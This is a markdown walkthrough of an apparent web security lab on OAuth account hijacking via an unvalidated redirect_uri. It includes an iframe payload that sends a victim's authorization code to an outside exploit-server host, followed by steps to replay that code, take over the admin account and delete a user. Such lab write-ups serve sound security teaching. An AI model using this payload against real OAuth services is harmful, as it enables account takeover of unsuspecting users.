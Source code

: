 # Lab: OAuth account hijacking via redirect_uri

> Lab Objective: steal an authorization code associated with the admin user, then use it to access their account and delete the user `carlos`.

- Login using provided credentials `wiener:peter`, then inspect the login process.

- The Login Process:

  - You're redirected to `/social-login` endpoint.
    ![1st screenshot](./attachments/1.png)
  - At `/social-login` endpoint, you're redirected to login with social media.
    ![2nd screenshot](./attachments/2.png)
  - Authorization request is made.
    ![3rd screenshot](./attachments/3.png)
  - You're prompted to enter your credentials.
    ![4th screenshot](./attachments/4.png)
  - You're prompted for your consent.
    ![5th screenshot](./attachments/5.png)
  - If agreed, you'll be redirected to to `redirect-uri` stated in the authorization request.
    ![6th screenshot](./attachments/6.png)
  - Finally, you're redirected to `/`.
    ![7th screenshot](./attachments/7.png)

- Logout and login again, but intercept the authorization request, then insert BURP_COLLABORATOR_URL + `?key=accessed` into the `redirect_uri`.
  ![8th screenshot](./attachments/8.png)

- Forward this request, then view Burp Collaborator tab, you'll notice that HTTP requests are made, one of them contain:

  - The `key=accessed`.
  - And the issued code.

  ![13th screenshot](./attachments/13.png)

- Therefore, use this payload to hijack the code:

```html
<iframe
  src="https://oauth-0a51006f03180af380b101900216005d.oauth-server.net/auth?client_id=czfxop1x3t6xjkvz0klvo&redirect_uri=https://exploit-0a06002c036e0acb80d6029c01de0038.exploit-server.net/?key=accessed12&response_type=code&scope=openid%20profile%20email"
></iframe>
```

- Then deliver it to victim.

- Wait a few seconds, then view the logs, and you'll find the code of the admin.

- Logout then login again but intercept the call back request, and replace your code with the hijacked code.
  ![9th screenshot](./attachments/9.png)

- Forward all upcoming requests, then you'll notice that you've access to the admin panel.
  ![10th screenshot](./attachments/10.png)
  ![11th screenshot](./attachments/11.png)

- Access the admin panel.
  ![11th screenshot](./attachments/11.png)

- Then delete the user carlos, and the lab is solved.
  ![12th screenshot](./attachments/12.png)

---
